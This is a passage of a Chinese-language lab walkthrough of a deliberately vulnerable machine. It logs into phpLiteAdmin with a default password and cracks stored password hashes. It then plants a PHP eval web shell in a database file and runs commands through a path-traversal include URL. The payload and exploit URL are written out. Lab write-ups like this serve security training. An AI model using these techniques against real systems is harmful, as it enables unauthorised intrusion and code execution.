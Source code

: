 访问扫描出来的目录结果, 发现 / dbadmin / 目录可能是突破口

 2、找 web 漏洞

![](https://mmbiz.qpic.cn/sz_mmbiz_png/LFO9ZDGBVzx8o8TaWYPTDChFEpgt5Mo01VLHrmyFP4ERZ25kGuA4iaYz8fMjAoOeUQUu0biakaBS02otCr8rmycg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/165jdibJnGcUAxqeh4b1mTZjIzBhOXg6t5AmDhsbbz9lACibgYGLvRc1EUqxXTUGePTNRouZsJrbwUdYGD4TdOWw/640?wx_fmt=png)

2.1、phpLiteAdmin

访问 / dbadmin / 目录, 找到一个 test_db.php 文件, 访问后发现是 phpLiteAdmin v1.9.3 的登陆页

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08weBV2oVrkiaAZZH416stTKMvzFBhVZfTojzLAA0FMM3TTWCiaVn0vBd5ia222Qte24MXsU5DuIkJaA/640?wx_fmt=png)

无需用户名, 直接输入密码, 尝试 admin, 登陆成功了。。。

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08weBV2oVrkiaAZZH416stTKy2wjQgPBeNBAc0amTmtDhaKjZ4Jx38XUgQRsaMpPNXogW6ZfqJLI6g/640?wx_fmt=png)

点击左下方 info, 发现有两个账户信息 root 和 zico

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08weBV2oVrkiaAZZH416stTK5awNeLUytGF5jIpTCaznmfn3W3gTibMTdkSq2PF4zPnCgYttsCDrzKw/640?wx_fmt=png)

去 somd5 查下密码, 分别是 34kroot34 和 zico2215@

![](https://mmbiz.qpic.cn/mmbiz_png/165jdibJnGcUAxqeh4b1mTZjIzBhOXg6t5AmDhsbbz9lACibgYGLvRc1EUqxXTUGePTNRouZsJrbwUdYGD4TdOWw/640?wx_fmt=png)

2.2、拿 shell

百度了下 phpLiteAdmin 漏洞, 发现 <=1.9.3 可能有代码执行漏洞, 首先创建一个 test.php 的数据库

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08weBV2oVrkiaAZZH416stTKJdGLgoGg86tHGLODZDYfwoOMEuMkKKJmtMsYsAqtqkictZXMy8XNSkA/640?wx_fmt=png)

然后新建一个名为 a 的表, 1 列, 字段 1, 值为

```
<?php @eval($_POST[x);?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08weBV2oVrkiaAZZH416stTKkQE4HuB2xXlCibCXOOuXgdX61VofIesNDxAmflVGGeHK5cUNzBABRYQ/640?wx_fmt=png)

创建成功, 如下图

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08weBV2oVrkiaAZZH416stTKHe4zzlWhb5RvquiaicLhkzsI9y52WMWEqbNg8rPfTQDkyiaJZzRTFZ2zQ/640?wx_fmt=png)

结合之前的文件包含漏洞, 访问

http://192.168.0.110/view.php?page=../../usr/databases/test.php

发现可以正常访问

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08weBV2oVrkiaAZZH416stTKXKibcMibPTTgePLVFYOf6DbLao62XwJqlB9S1g2V8VeZNbgcJ681QoYQ/640?wx_fmt=png)

尝试执行命令, 发现可以执行 whoami

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08weBV2oVrkiaAZZH416stTKfRgTJLWLAcT0Ql5fY7xI2JBSCuVtJKEmKfCd4SArcaajgK5icJDXg7A/640?wx_fmt=png)

尝试通过执行命令来直接反弹 shell, 并没有反弹成功, 直接搞个新的 shell 文件好了
